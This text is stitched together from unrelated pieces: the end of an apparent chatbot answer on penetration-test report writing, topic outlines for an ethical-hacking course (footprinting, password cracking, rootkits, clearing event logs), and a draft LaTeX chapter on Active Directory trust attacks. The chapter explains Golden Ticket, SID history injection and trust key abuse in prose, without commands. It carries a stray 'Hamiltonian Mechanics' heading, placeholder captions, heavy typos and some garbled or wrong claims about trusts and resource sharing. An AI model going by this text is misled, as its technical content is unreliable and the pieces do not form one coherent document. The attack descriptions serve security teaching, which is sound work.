**Additional Resources**

- Include links to relevant CVEs, vendor advisories, OWASP documentation, or authoritative external tutorials for further education.


4. Appendices

Contain detailed supplementary information that supports the main content:

Typical Appendix Contents:

- **Testing Methodology:** Summary of techniques, tools, frameworks, and standards used during the assessment (e.g., OWASP Testing Guide, NIST SP 800-115).
- **Risk Rating Definitions:** Detailed explanation of severity categories and scoring system.
- **Tool Output:** Extracted, curated, and sanitized logs or output from automated scanners or manual tests — avoid dumping raw data.
- **Test Checklist:** The full list of tests performed with results (e.g., OWASP Web Security Testing Guide checklist).
- **Glossary:** Carefully define cybersecurity terms, acronyms, and abbreviations for varied audiences.


5. References and Further Reading

Though optional inside the report, providing curated resources encourages deeper understanding:

- **SANS Institute Guides:** Resources on writing penetration testing reports and effective communication.
- **OWASP Resources:** Comprehensive testing guides and prevention materials.
- **Infosec Institute Articles:** Practical tips on penetration test report writing.
- **Industry Blogs \& Papers:** E.g., Rhino Security Labs’ recommendations on report content.


Best Practices \& Recommendations for Writing Effective Reports

1. Understand Your Audience

Tailor jargon, technical depth, and emphasis to your target readership.

- **Executives \& Management:** Focus on risk, impact, and high-level mitigations in simple language.
- **Technical Teams:** Deliver comprehensive technical data, reproduction steps, and actionable remediation.
- **Compliance Teams:** Highlight regulatory implications and remediation timelines.

2. Be Clear and Concise

Avoid overloading sections with unnecessary detail. Be precise. Use bullet points, tables, and diagrams for readability.

3. Maintain a Constructive Tone

Balance findings by acknowledging good practices and avoid alarmist language.

4. Prioritize Findings

Use rankings and summaries to help clients prioritize remediation according to risk.

5. Use Visual Aids Judiciously

Charts, graphs, and heatmaps can convey data clearly, but only if well-designed and relevant.

6. Protect Sensitive Data

Never include passwords, keys, personal data, or proprietary information in reports unless explicitly permitted. Redact all sensitive details.

7. Consistent Formatting and Professional Presentation

Proper headings, numbering, fonts, and branding (logos, consistent color schemes) lend credibility.

8. Proofread and Quality Check

Review for spelling, grammar, and factual accuracy before delivery.

9. Secure Your Report

Always encrypt the document and control access, especially when containing sensitive vulnerability details.


Additional Considerations

- **Re-tests and Updates:** For subsequent assessments, clearly distinguish new findings from previously reported and resolved issues.
- **Actions and Remediation Tracking:** Consider adding a summary of remediation status or including a risk acceptance note where applicable.
- **Client Collaboration:** Allow space for client feedback and responses to findings.
- **Legal and Contractual Compliance:** Ensure all report content complies with contractual agreements and legal considerations.


Sample Report Flow Recap

1. **Introduction**: Define “who, what, when, where, why.”
2. **Executive Summary**: High-level overview for decision-makers.
3. **Findings Summary**: Quick reference of all issues.
4. **Detailed Findings**: Deep dive technical info with remediation.
5. **Appendices \& Methodology**: Support materials and background.
6. **References**: Further guidance and reading.

Conclusion

**Effective reporting transforms technical tests into actionable business value.** It empowers clients to understand, prioritize, and address security risks confidently. By tailoring language, focusing on clarity, adhering to best practices, and securing the report itself, you enhance both your credibility and your client’s security posture.


If you need, I can also assist with **templates**, **example reports**, **executive summary samples**, or **recommendations on report automation tools**. Just let me know!
Reconnaissance, Information Gathering, Footprinting
	Defining Footprinting
	Information Gathering Methodology
	Locating Network Ranges
	Hacking Tools
***
Footprinting Terminologies
Understanding Footprinting
    - What is Footprinting?
    - Objectives of Footprinting
    - Potential Threats Involved in Footprinting
Identifying Company Web Presence
    - Finding a Company’s URL
    - Locating Internal URLs
    - Differentiating Between Public and Restricted Websites
Gathering Company Information
    - Searching for Company Information
    - Tools for Extracting Company Data
    - Footprinting Using Search Engines
Collecting Location-Based Data
    - Obtaining Location Information
    - Viewing Satellite Images of Residences
People Search Techniques
    - General People Search Strategies
    - Using Specific Engines such as http://pipl.com
    - Utilizing Online People Search Services
    - Searching Through Social Networking Platforms
Financial and Job Market Intelligence
    - Gathering Information from Financial Services
    - Using Job Sites for Footprinting
Active Monitoring and Alerts
    - Setting Up Alerts to Monitor the Target
Competitive Intelligence Gathering
    - Understanding the Company’s History and Development
    - Discovering Company Plans and Strategies
    - Reviewing Expert Opinions and Analyses
    - Tools for Competitive Intelligence
    - Consulting Competitive Intelligence Firms
Domain and Network Information Gathering (WHOIS and DNS)
    - Performing WHOIS Lookups
    - Analyzing WHOIS Lookup Results
    - WHOIS Lookup Tools (e.g., SmartWhois and Others)
    - Accessing Online WHOIS Lookup Services
    - Extracting DNS Information
    - DNS Interrogation Tools and Online Services
Locating the Network Range
Traceroute Techniques and Tools
- Understanding Traceroute
- Analyzing Traceroute Results
- Traceroute Tools:
    - 3D Traceroute
    - LoriotPro
    - Path Analyzer Pro
- Overview of Various Traceroute Tools
Website Mirroring
- Complete Website Mirroring Methods
- Tools for Website Mirroring
- Extracting Website Information Using [Archive.org](http://www.archive.org)
- Monitoring Website Updates with Website Watcher
Email Tracking
- Techniques for Tracking Email Communications
- Tools Designed for Email Tracking
Footprinting Through Google Hacking
- Utilizing Google Hacking Techniques for Footprinting
- Potential Risks: What a Hacker Can Achieve Using Google Hacking
- Advanced Google Search Operators for Resource Discovery
- Utilizing Google Advanced Operators to Find Specific Information
- Google Hacking Tools:
    - Google Hacking Database (GHDB)
- Overview of Additional Google Hacking Tools
Additional Resources for Footprinting
- Supplementary Footprinting Tools
- Countermeasures to Prevent Footprinting
- Footprinting in Penetration Testing

Ethics and Legality
	Why Security?
	The Security, Functionality, and Ease of Use Triangle
	Can Hacking Be Ethical?
	Essential Terminology
	Elements of Security
	What Do Malicious Hackers Do and Why Do They Do It?
	Ethical Hacking vs. Penetration Testing
	Attacker Categorizations
	Knowledge, Skills, and Abilities (KSAs) Required of an Ethical Hacker
	Modes of Ethical Hacking
	Security Testing
	Deliverables
	Computer Crimes and Implications
	Legal Perspective (United States Federal Laws)
Network Scanning
	Definition of Network Scanning
	Types of Network Scanning
	Objectives of Network Scanning
	Network Scanning Methodology
	Classifications of Scanning
	IPSec Scan
	NetScan Tools Pro
	ActiveStack Fingerprinting
		Passive Fingerprinting
	Proxy Servers
	Countermeasures
Hacking Information System and Endpoints
	Brute-Forcing Administrative Passwords
	Manual Password Cracking Algorithm
	Automated Password Cracking
	Password Types
	Performing a Brute-Force Attack Using Automated Password Guessing
	Password Sniffing Attack
	Password Cracking Countermeasures
	Syskey Utility
	Cracking Windows Server Passwords
	SMBRelay: Man-in-the-Middle (MiTM) Scenario
	SMBRelay Weaknesses and Countermeasures
	Keystroke Loggers
	Hiding and Obfuscating Files
	Creating Alternate Data Streams
	ADS Creation and Detection
	LADS (List Alternate Data Streams)
	NTFS Streams Countermeasures
	Stealing Files Using Microsoft Office Word Documents
	Field Code Countermeasures
	Steganography
	Covering Tracks
	Disabling Auditing and Clearing Windows Event Logs
	Dumping Event Logs Cleanly
	Rootkits and Bootkits
		Planting a Rootkit
		Rootkit and Bootkit Countermeasures
\frontmatter          % for the preliminaries
%
\pagestyle{headings}  % switches on printing of running heads
\addtocmark{Hamiltonian Mechanics} % additional mark in the TOC
%
\chapter*{Active Directory Trust Attacks}
\begin{abstract}
    An Active Directory trust attack exploits inherent trust relationships between domains to gain unauthorized access and escalate privileges across an organization's network. In complex enterprise environments with multiple domains and forests, these trusts-established to facilitate authentication and resource sharing-can become critical vectors for lateral movement and full domain compromise. This type of attack leverages an initial toehold in one domain to pivot to others, potentially reaching the most sensitive parts of the network.
\end{abstract}
\section{Foundational Concepts: Setting the Stage}
Attacking Active Directory trust relationships requires a solid and firm understanding of many key concepts (what forests and domains are, how trusts work, what security mechanisms are involved and how they work, for example). Consequently, this chapter is a bit lengthy, especially in the theory and resources parts; however it is best to include all the necessary info here.

\begin{itemize}
    \item Active Directory (AD) is a Microsoft service that centrally manages user credentials, access controls, and network resources.
    \item Domain trusts are secure communications pathways between two or more AD domains or forests, allowing authentication traffic and access requests.
    \begin{itemize}
    \item  Transitive trusts automatically propagate trusts. For example, if Domain A trusts Domain B, and Domain B trusts Domain C, then Domain A also trusts Domain C. This implicitly broadens the potential attack surface.
    \item Intraforest trusts are automatically created after domain controllers have been fully promoted. These transitive trusts exist in the same AD forest.
        \item External and forest trusts are created manually. These can be one-way or two-way and connect domains across different forests or standalone environments.
    \end{itemize}
\end{itemize}

\subsection{Key AD-Based Attack Techniques Refresher}
\textbf{\textit{\subsubsection{Golden Ticket Attacks}}} 
These are among the most damaging AD attacks. The attacker forges a Kerberos Ticket Granting Ticket (TGT) by compromising the \texttt{krbtgt} account's password hash. With this forged ticket, they can impersonate any user and gain unrestricted access across the domain or forest.

\subsubsection{\textbf{\textit{SID History Injection}}}
In this attack, a threat actor compromises a domain and inserts a privileged SID from a trusted domain into the \texttt{SIDHistory} attribute of a compromised user. If the trust relationship is misconfigured with SID filtering disabled, the trusting domain will honor this injected SID-granting unauthorized administrative access.

\subsubsection{\textbf{\textit{Inter-realm TGT Abuse}}}
Attackers forge an inter-realm Kerberos TGT by compromising the trust key between domains. This allows lateral movement even over non-transitive trusts, bypassing traditional trust boundaries.

\subsubsection{\textbf{\textit{Trust Key Abuse}}}
Here, an attacker obtains the password hash of the trust account in a two-way trust. This enables forging Kerberos tickets for authentication across domain boundaries.

\subsubsection{\textbf{\textit{Targeting AD Certificate Services (AD CS)} }}
Misconfigurations in AD CS can allow attackers to issue fraudulent certificates, allowing impersonation, privilege escalation, and lateral movement within or across domains.

\textbf{\textit{DNS Trust Attacks}}
Attackers exploit weaknesses in DNS configurations in trusted domains to manipulate name resolution, redirect traffic or facilitate further compromise of the environment.

\section{Introduction to Active Directory Trust Attacks}
Active Directory (AD) continues to serve as a pioneering technology for organizations of all sizes and sectors. Despite the trend toward hybrid and fully cloud-based infrastructures, AD remains deeply integrated into enterprise networks worldwide. For security professionals and ethical hackers, this means having a strong grasp of AD-its architecture, protocols, and the way its components can be misconfigured or abused-is imperative.

To effectively secure AD, you must first understand how attackers think. That means understanding not just how AD is built but also how it can be broken. You do not need to be a master of every AD facet, but having a solid grasp of its core elements-especially those most commonly targeted-is essential to becoming a competent ethical hacker or defender.

One of the most powerful, yet often misunderstood components of AD is its trust model. Almost a decade ago, researchers such as \textit{harmj0y} brought attention to domain trust exploitation with influential publications like \textit{The Trustpocalypse} (2015) and \textit{A Guide to Attacking Domain Trusts} (2017). At the time, targeting domain trusts was a novel idea in many circles. But for red teamers and defenders actively working in the field, this research opened up a new frontier of attack surfaces and defensive insight.

Since then, the InfoSec community has continued to build on that foundation. New techniques and attack paths have emerged, allowing for an increase in the abuse of trust relationships both within and between forests. These developments have significantly deepened our understanding of how trust structures impact network security.

This chapter is designed to give you the knowledge and skills necessary to assess and defend against trust-based attacks in AD environments. As modern organizations become more interconnected, understanding how trust relationships function-and how they can be exploited-has never been more important.

Because AD is central to authentication, authorization, and resource access, its complexity often leads to vulnerabilities-especially when environments are expanded rapidly or poorly maintained. An improperly configured trust relationship can become a gateway for attackers to move laterally, escalate privileges, and potentially compromise the entire network.

\importantbox{\textbf{Pro-Tip:} Always remember-any change to the AD environment, its infrastructure, or even its supporting network layers, can introduce new vulnerabilities. Even well-intentioned security hardening (like applying GPO settings or deploying new security tools) can inadvertently expand the attack surface. As a best practice, always perform \textbf{re-validation} and \textbf{re-verification} scans (R\&R) after making configuration changes. This is more than just due diligence-it is your responsibility as a security professional to protect not only your systems but also the trust others place in you.}

Additionally, we will focus on two (2) primary types of trust relationships frequently targeted in AD attacks:

\begin{itemize}
    \item \textbf{\textit{Intra-forest trusts-}} Enable resource sharing and communication between domains within the same forest.
    \item \textbf{\textit{Cross-forest trusts-}} Enable similar interactions between domains in completely separate forests.
\end{itemize}

While these trust models are designed to enhance network scalability and team collaborations, they can dramatically increase the attack surface-particularly if misconfigured or left unmonitored. For both red- and blue-team professionals, a deep understanding of these trust mechanisms is essential to identify weak points and anticipate adversarial movements.

By the end of this chapter, you will be equipped to evaluate trust configurations, simulate real-world attacks, and advise on hardening strategies that reduce risk and increase resilience in Active Directory environments.

\section{Understanding Active Directory Forests, Domains, and Trusts and Why You Should Care About Them}
As hackers, red-and-blue teamers, and penetration testers, we often encounter large enterprise environments where gaining an initial toehold in an Active Directory (AD) domain is possible, but privilege escalation within that domain proves difficult. This is where trust relationships start to break down.

For example, if direct escalation paths are exhausted, you may still identify a trust that allows Kerberoasting across domains. Compromising a child domain through this vector could, in turn, enable compromise of the parent domain. Similarly, trust relationships between forests can open the door to more advanced attack paths-compromising a partner forest might provide the access needed to escalate within your current target environment.

In this section, we will examine both intra-forest and cross-forest trust relationships in detail, analyzing both well-known and less commonly exploited attack techniques. We will also approach these attacks from both Windows and Linux perspectives to provide a well-rounded, practical knowledge.

Through real-world scenarios, case studies, and hands-on exercises, you will explore how adversaries leverage trust relationships for lateral movement and privilege escalation. At the end of this chapter, you will have the skills to identify, exploit, and defend against trust-based attacks in AD.
\importantbox{For red teamers, this means sharpening your offensive skills set to uncover new attack paths.}
\importantbox{For defenders, it means understanding why these cyberattacks work in the first place and how to harden AD infrastructures to reduce their impact.}
Ultimately, mastering trust relationships is essential for both attacking and defending modern Active Directory environments.

\section{Active Directory in a Nut\texttt{shell}}
\subsection{Directory Architecture}
First, let us cover the concept of \textbf{\textit{Sites.}} In Active Directory, Sites define the boundaries of high-speed, reliable network links and circuits. They are tied to IP subnets and represent one or more "well-connected" subnets. Sites should not be confused with \textbf{\textit{domains}}, which serve a different purpose and are explained next.

Domains remain the core unit of a Windows-based networkm just as they were in NT 4.0, though their structure has changed. The old distinction between Primary Domain Controllers (PDCs) and Backup Domain Controllers (BDCs) no longer exists. Instead, all domain controllers (DCs) are peers. By default, Windows servers install as standalone member servers, and administrators can still use \verb|DCPROMO.EXE| (the Active Directory Installation Wizard to promote or demote a server to or from a DC. The wizard collects the necessary configuration details to install Active Directory and its core components.

Replication is managed by the \textbf{\textit{Knowledge Consistency Checker (KCC),}} a built-in service that runs on every DC. The KCC automatically creates and maintains the connection objects needed for replication within a site. While administrators can add or remove these connections manually, if replication fails or a single point of failure exists, the KCC generates new connection objects to ensure replication continues without interruption.

Every domain controller (DC) in a domain can accept updates to the domain database (\texttt{ntds.dit})  replicate those cjanges to the other DCs. The very first domain craeted in a forest is called the \textbf{\textit{root domain,}}and it forms the top of the Active Directory hierarchy. Any additional domains created beneath it are known as \textbf{\textit{child domains,}} and each child domain must have a unique name within the forest.

Replication, in this manner, works differently between domains. Within a single domain, DCs replicate the entire domain directory partition to stay synchronized. Between the root domain and child domains, however, replication occurs only for forest-wide data (the schema and configuration partitions). Each domain maintains its own domain partition, meaning user and computer accounts are not replicated across domains unless explicitly created in those respective domains.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
When a root domain is created and at least one child domain is added beneath it, the structure is now konwn as a \textbf{\textit{tree.}} This term is used frequently in the context of directory services, so it is important to be faimliar with it.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad2.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The directory structure starts to resemble a tree, with the root domain as the trunk and each child domain branching out beneath it. Now, imagine a large company like Microsoft that owns multiple subsidiary corporations. In practice, each corporation might have its own tree, with its own root domain and child domains.

When multiple trees are linked together through trust relationships, the collection is known as a \textbf{forest}. A forest is the highest-level container in Active Directory, made up of one or more trees. While domains within a single tree share a contiguous namespace (e.g., \verb|corp.example.com|, \verb|sales.corp.example.com|), domains in different trees within the same forest can have completely different namespaces (e.g., \verb|corp.example.com| and \verb|dupont.com|).

In short:
\begin{itemize}
    \item A \textbf{tree} = one root domain + its child domains (single namespace).
    \item A \textbf{forest} = one or more trees joined by trusts (multiple namespaces).
\end{itemize}
Let’s look at how this would appear in our site example.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad3.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

Let us use a real-world example. Suppose our company owns two separate domains: \textbf{techtutorials.net} and \textbf{xyzabc.com}. Each of these domains would form its own \textbf{tree}, organized in the same way as the root domain (for example, \verb|mcmcse.local|).

\subsubsection{Trusts Overview}

Active Directory makes managing trusts far easier than it was in the old NT 4.0 days. There are three major improvements:

\begin{enumerate}
    \item \textbf{Automatic trust creation}

 When a new domain is added to a forest, the necessary trust relationships are created automatically.
    \item \textbf{Two-way transitive trusts}

 By default, trusts in Active Directory are two-way. If Domain A trusts Domain B, then Domain B automatically trusts Domain A. In NT 4.0, trusts had to be configured as multiple one-way trusts, which was tedious and error-prone.
    \item \textbf{Transitivity}

 Trusts are also transitive. If Domain A trusts Domain B, and Domain B trusts Domain C, then Domain A automatically trusts Domain C (and vice versa). This greatly simplifies multi-domain environments.
\end{enumerate}
These changes significantly reduce the administrative overhead of managing trusts; however, administrators can still create \textbf{one-way trusts} when more restrictive access control is required.

\textbf{Directory Components:}

Now that we have looked at the big picture, it is time to take a look at what happens inside a domain. To get started, the first concept that you will need to understand what the directory is made of. A common analogy for a directory is a phonebook. Both contain listings of various objects and information and properties about them. Within the directory are several other terms that you must know to gain even an entry level understanding as to how it all works.

\begin{itemize}
    \item \textbf{Objects} - Objects in the database can include printers, users, servers, clients, shares, services, etc. and are the most basic component of the directory.
    \item \textbf{Attributes} - An attribute describes an object. For example, passwords and names are attributes of user objects. Different objects will have a different set of attributes that define them, however, different objects may also share attributes. For example, a printer and Windows Vista computer may both have an IP address as an attribute.
    \item \textbf{Schema} - A schema defines the list of attributes that describe a given type of object. For example, let's say that all printer objects are defined by name, PDL type and speed attributes. This list of attributes comprises the schema for the object class "printers". The schema is customizable, meaning that the attributes that define an object class can be modified.
    \item \textbf{Containers} - A container is very similar to the folder concept in Windows. A folder contains files and other folders. In Active Directory, a container holds objects and other containers. Containers have attributes just like objects even though they do not represent a real entity like an object. The 3 types of containers are Domains, Sites and Organizational Units and are explained in more detail below.
    \begin{itemize}
        \item \textit{Domains} - We have already discussed this concept in the preceding paragraphs.
        \item \textit{Sites} - A site is a location. Specifically, sites are used to distinguish between local and remote locations. For example, company XYZ has its headquarters in San Fransisco, a branch office in Denver and an office that uses DUN to connect to the main network from Portland. These are 3 different sites.
        \item \textit{Organizational Units} - Organizational units are containers into which you can place users, groups, computers, and other organizational units. An organizational unit cannot contain objects from other domains. The fact that organizational units can contain other OUs, a hierarchy of containers can be created to model your organization's structure and hierarchy within a domain. Organizational units should be used to help minimize the number of domains required for a network.
    \end{itemize}
\end{itemize}
Now that we know what these concepts mean, let us take a visual look at what is going on inside a domain.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{ad4.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

The folder icons in Active Directory represent \textbf{\textit{Organizational Units (OUs)}} container boxes, which can hold objects, such as users, groups, computers, printers, and servers. OUs can also contain other OUs, creating a nested structure.

\subsubsection{Object Names}

Active Directory relies on the \textbf{\textit{Lightweight Directory Access Protocol (LDAP)}} for its naming conventions. Two key terms are \textbf{\textit{Distinguished Names (DNs)}} and \textbf{\textit{Common Names (CNs)}}. A distinguished name is the full path to an object in the directory tree, similar to the full path of a file in a file system. The DN uniquely identifies the location of an object.

The components of a distinguished name include:

\begin{itemize}
    \item \textbf{OU (Organizational Unit):} Represents the container, often based on the organizational structure.
    \item \textbf{DC (Domain Component):} Represents each level of the domain name. Every dot in a domain name becomes a separate DC.
    \item \textbf{CN (Common Name):} Identifies the object itself.
\end{itemize}

\textbf{Examples:}
\begin{itemize}
    \item User object: \verb|CN=mindhakcdiva,CN=Users,DC=hhw,DC=COM|
    \item Same user in child domain: \verb|CN=mindhackdiva,CN=Users,DC=it,DC=hhw,DC=COM|
    \item Computer object: \verb|CN=WOPR,CN=Computers,DC=hhw,DC=COM|
\end{itemize}
Other naming formats also exist:
\begin{table}
\centering

\begin{tabular}{l l}
Naming Convention & Example \\

Friendly name / RFC 822 & mindhackdiva@hhw.com\\
LDAP URL & LDAP://hhw.com/CN=mhackdiva,OU=it,O=HHW,C=US\\
Universal Naming Convention & hhw.com\textbackslash{}documents\textbackslash{}webpages\textbackslash{}index.shtm\\

\end{tabular}

\end{table}

\subsubsection{Global Catalog}

Because naming can be complex, Active Directory uses the \textbf{Global Catalog (GC)} service to help locate objects. The GC allows advanced searches, not just by name, but by attributes. For example, if I need a printer that supports 100 pages per minute and binding, I can query the GC to find one that matches, like a Xerox Docutech 6135. The GC even shows location, so if the printer is in Seattle while I am in Portland, I know to contact its owner.

The GC can also resolve users. Suppose that I get a voicemail from 'Betty Doe' on the payroll, but I can't find her number. I can search for her in the GC and retrieve it (if stored in her attributes). This feature is similar to the address book in Microsoft Exchange, but the GC extends it to all directory objects, not just users.

Finally, every object in AD is assigned a \textbf{GUID (Globally Unique Identifier)}. This 128-bit value never changes for that object, even if it is renamed or moved. Applications can record the GUID and still locate the object later using the Global Catalog.











\section{Active Directory Forests, Domains \& Trusts}
An Active Directory domain \textit{} is a collection of computers, users, and other resources that are managed together. A domain has its own security database, which is used to authenticate users and computers when they log in or access resources within the domain.

A \textit{forest} is a collection of one or more Active Directory domains that share a common schema, configuration, and \textit{Global Catalog}. The \textit{ scheme} defines the types of objects that can be created within the forest, and the global catalog is a centralized database that contains a partial searchable replica of every domain in the forest.

\subsection{Understanding What Trust Relationships Do}
Active Directory (AD) trust relationships create a pathway for secure authentication and resource access between different domains or forests by linking their identity systems. They allow users in one AD environment to use their credentials to access resources in another, which is important for collaboration and centralizes management in organizations that house multiple domains. Key concepts include \textit{one-way} versus \textit{two-way trusts, transitive trusts} that allow cascading access, and automatic creation for parent-child domains versus manual creation for others.
Trust relationships encompass the following:
\textbf{Enable Authentication and Authorization:}
A trust allows users from a trusted domain to be authenticated and authorized to access resources in a trusting domain.
\textbf{Facilitate Resource Sharing:}
By enabling access across domains, trusts allow for seamless sharing of files, printers, and other resources located in different domains often through abuse of HTTP, SMB, WMIC, WMI, and DLL.
\textbf{Bridge Separate Domains:}
In complex environments with multiple domains or forests, trusts act as secure bridges, allowing users to interact with systems outside their native domain without creating duplicate accounts (which are not allowed on a domain network).
\subsection{Key Characteristics and Concepts}
\subsubsection{Trusting Versus Trusted Partner}
In a trust relationship, one domain is designated the "\textit{trusting}" partner, and the other is the "\textit{trusted}" partner.
\subsection{One-Way Versus Two-Way}
\subsubsection{One-Way Trust:}
A unidirectional relationship; for example, Domain A trusts Domain B, so users in Domain B can access resources in Domain A, but not vice versa.
\subsubsection{Two-Way Trust:}
A bidirectional relationship in which both domains trust each other, allowing users in either domain to access resources in the other.
\subsection{Transitive Versus Non-Transitive}
\subsubsection{Transitive Trust}
If Domain A trusts Domain B and Domain B trusts Domain C, then Domain A automatically trusts Domain C. This is a key feature of parent-child trusts and forest trusts.
\subsubsection{Non-Transitive Trust}
Trust is limited only to the two domains directly involved in the relationship.
\subsection{Automatic Versus Manual}
\subsubsection{Automatic Trusts}
Established automatically when a child domain is created under a parent domain.
\subsubsection{Manual Trusts}
Established between unrelated domains or forests through administrative actions.
\subsection{Kerberos Protocol}
Trusts use \textit{Kerberos authentication}, a secure protocol for passing authentication traffic between the linked domains.
\subsection{Why They Matter}
\subsubsection{Security and Collaboration}
Trusts enhance security by allowing organizations to manage users and resources centrally across different domains while still enabling collaboration.
\subsubsection{Reduced Complexity}
They eliminate the need to create separate user accounts for each domain, simplifying administration, lowering the attack surface, and improving the overall user experience.

Trust relationships between domains allow users in one domain to access resources in another domain. There are several types of trust relationships that can be established, including one-way trusts, two-way trusts, external trusts, etc.

Once a trust relationship is established between a trusting domain (A) and trusting domain (B), users from the trusted domain can authenticate to the trusting domain's resources. In other -more technical- terms, trusts extend the security boundary of a domain or forest.

\importantbox{Simply establishing a trust relationship does not automatically grant access to resources. In order to access a "trusting" resource, a "trusted" user must have the appropriate permissions to that resource. These permissions can be granted by adding the user to a group that has access to the resource or by giving the user explicit permissions to the resource.

A trust relationship allows users in one domain to authenticate to the other domain's resources, but it does not automatically grant access to them. Access to resources is controlled by permissions that must be explicitly granted to the user in order for them to access the resources.}

\subsubsection{Global Catalog}

The global catalog is a partial copy of all objects in an Active Directory forest, which means that some object properties (but not all) are contained within it. This data is replicated among all domain controllers marked as global catalogs for the forest. One of the Global Catalog's purposes is to facilitate quick object searching and conflict resolution without the necessity of referring to other domains.

The initial global catalog is generated on the first domain controller created in the first domain in the forest. The first domain controller for each new child domain is also set as a global catalog by default, but others can be added.

The GC allows both users and applications to find information about any objects in ANY domain in the forest. The Global Catalog performs the following functions:
\begin{itemize}
    \item Authentication (provided authorization for all groups that a user account belongs to, which is included when an access token is generated)
    \item Object search (making the directory structure within a forest transparent, allowing a search to be carried out across all domains in a forest by providing just one attribute about an object.)
\end{itemize}

\subsubsection{Trust Types}

The \verb|trustType| attribute of a TDO specifies the type of trust that is established. Here are the different trust types (section 6.1.6.7.15 "trustType" of [MS-ADTS]):

\begin{enumerate}
    \item Downlevel: A trust with a domain that is running a version of Windows NT 4.0 or earlier.
    \item Uplevel: A trust with a domain that is running Windows 2000 or later.
    \item MIT: A trust with a non-Windows Kerberos realm, typically used for interoperability with UNIX-based systems running MIT Kerberos.
    \item DCE: Not used in Windows. Would refer to trusts with a domain running \href{http://www.opengroup.org/dce/info/}{DCE}.
    \item AAD: The trusted domain is in Azure Active Directory.
\end{enumerate}

\subsubsection{Trust Flavor}

The trust "flavor", on the other hand, represents the nature of the trust relationship between domains or forests. It is not a direct attribute but is identified based on other TDO attributes.
\begin{enumerate}
    \item \textit{\textbf{Parent-Child}}: this type of trust relationship exists between a parent domain and a child domain in the same forest. The parent domain trusts the child domain, and the child domain trusts the parent domain. This type of trust is automatically created when a new child domain is created in a forest.
    \item \textit{\textbf{Tree-Root:}} exists between the root domain of a tree and the root domain of another tree in the same forest. This type of trust is automatically created when a new tree is created in a forest.
    \item \textit{\textbf{Shortcut}} (a.k.a. \textit{cross-link}): exists between two child domains of different tree (e.g., different parent domains) within the same forest. This type of trust relationship is used to reduce the number of authentication hops between distant domains. It is a one-way or two-way transitive trust.
    \item External: exists between a domain in one forest and a domain in a different forest. It allows users in one domain to access resources in the other domain. It's usually set up when accessing resources in a forest without trust relationships established.
    \item Forest: exists between two forests (i.e. between two root domains in their respective forest). It allows users in one forest to access resources in the other forest.
    \item Realm: exists between a Windows domain and a non-Windows domain, such as a Kerberos realm. It allows users in the Windows domain to access resources in the non-Windows domain.
\end{enumerate}



\subsection{Trust Types}
While this chapter assumes an intermediate understanding of Active Directory (AD), it is useful to clearly define the different types of trust relationships you may encounter in real-world environments. Not all of these will be covered in-depth; however, understanding their scope and purpose provides important context.
\begin{itemize}
    \item \textbf{\textit{Parent-Child Trust:}} Created automatically when a new domain of children is added to a forest. This establishes a two-way transitive trust between the parent domain and its child.
        \item \textbf{\textit{Tree-Root Trust:}} Formed automatically when a new tree is created within a forest. Link the root domain of the new tree to the root domain of the existing tree, allowing a two-way transitive trust.
        \item \textbf{\textit{External Trust:}}A manually created trust between a domain in one forest and a domain in a separate forest. It is typically used to provide access to resources where there is no forest trust. External trusts can be one-way or two-way, but unlike forest trusts, they are not transitive.
        \item \textbf{\textit{Forest Trust:}}A transitive trust established between the root domains of two separate forests. This allows users in one forest to access resources in another, supporting collaboration across organizational boundaries.
        \item \textbf{\textit{Shortcut (Cross-Link) Trust:}}Created between two child domains in different trees of the same forest. It is used to optimize authentication pathways, reducing the number of trust hops required. Shortcut trusts can be configured as one-way or two-way transitive.
        \item \textbf{\textit{Realm Trust: }}Connects a Windows domain to a non-Windows Kerberos realm. This enables interoperability, allowing authentication and resource access across different security infrastructures.
\end{itemize}

In practice, the most commonly encountered trust types are \textit{Parent-Child, Tree-Root,} and \textit{Forest Trusts.} External, Shortcut, and Realm trusts appear less frequently, but you should be aware of their role and potential security implications associated with them.

For the purposes of this chapter, we will focus primarily on \textbf{Parent-Child} and \textbf{Forest Trust} relationships, as these are the most frequently targeted in real-world attacks.


\begin{table}
    \centering
    \begin{tabular}{ccccc}
         Trust Type&  Transivity&  Direction&  Authentication Mechanisms& Creation Mode\\
         Parent/Child&  Transitive&  Two-Way&  Either& Auto\\
         Tree/Root&  Transitive& Two-Way&  Either& Auto \\
         Shortcut (a.k.a. cross-link)&  Transitive&  Two-Way&  Either& Manual \\
         Realm&  Either& Either&  Kerberos V5 Only& Manual\\
         Forest&  Transitive&  Either&  Either& Manual\\
         External&  Non-transitive&  One-Way&  NTLM Only& Manual\\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder}
\end{table}

\section{Transitivity}
